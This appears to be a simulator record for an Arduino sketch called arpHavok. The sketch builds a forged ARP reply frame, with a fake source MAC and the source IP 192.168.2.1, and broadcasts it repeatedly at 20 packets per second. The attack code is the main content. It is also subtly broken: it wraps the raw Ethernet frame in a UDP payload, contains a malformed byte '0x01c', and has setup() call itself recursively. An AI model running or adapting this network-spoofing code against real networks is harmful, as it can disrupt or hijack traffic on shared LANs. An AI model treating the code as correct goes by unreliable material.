
This sketch was run on a simulated Arduino Uno, built for the host (arithmetic inside an expression is 32-bit, double 64-bit). On the bench: output pins drawn as LEDs (lit = HIGH). Dashed ring = blinking. WiFi joins after 1.5 s; servers stay silent unless stated.

Above: at 2.0 s.
Timing chart, 0 to 4.5 s (numbered marks = the images above):


Measured:
- by itself, pin 13 (LED_BUILTIN): alternates HIGH for 1.0 s and LOW for 0.10 s

The sketch:

arpHavok.ino
```cpp
#include <SPI.h>
#include <Ethernet.h>
#include <EthernetUdp.h>

byte mac[] = {
  0xDE, 0xAD, 0xBE, 0xEF, 0xFE, 0xED
};

IPAddress broadcastIP(255, 255, 255, 255);
unsigned int broadcastPort = 6555;

unsigned int localPort = 8888;
bool connection = false;

int packetRate = 20;

char packetBuffer[48];
uint8_t _data[48] = {
  /* 0  */ 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, //destination MAC
  /* 6  */ 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, //source MAC
  /* 12 */ 0x08, 0x06, //frame type (ARP)
  /* 14 */ 0x00, 0x01, //ethernet
  /* 16 */ 0x08, 0x00, //ipv4
  /* 18 */ 0x06, 0x04, //size, protocol size
  /* 20 */ 0x00, 0x02, //opcode (1:request, 2:reply)
  /* 22 */ 0x01, 0x01, 0x01, 0x01c, 0x01, 0x01, //source MAC
  /* 28 */ 0xc0, 0xa8, 0x02, 0x01, //source IP
  /* 32 */ 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, //destination MAC
  /* 38 */ 0xFF, 0xFF, 0xFF, 0xFF, //destination IP (255.255.255.255)
};

EthernetUDP Udp;

void sendARP() {
  for (int i = 0; i < packetRate; i++) {
      digitalWrite(LED_BUILTIN, HIGH);

      for (int x = 0; x < 48; x++) {
          packetBuffer[x] = _data[x];
      }

      Udp.beginPacket(broadcastIP, broadcastPort);
      Udp.write(packetBuffer, 48);
      Udp.endPacket();
      delay(1000 / packetRate);
      digitalWrite(LED_BUILTIN, LOW);
  }

}

void setup() {
  pinMode(LED_BUILTIN, OUTPUT);

  if (Ethernet.begin(mac) == 0) {
      connection = false;
      digitalWrite(LED_BUILTIN, LOW);
  } else {
      connection = true;
      Udp.begin(localPort);
  }

  while (!connection) {
    setup();
 }
}

void loop() {
  if (connection) {
      sendARP();
      delay(100);
  }
}
```
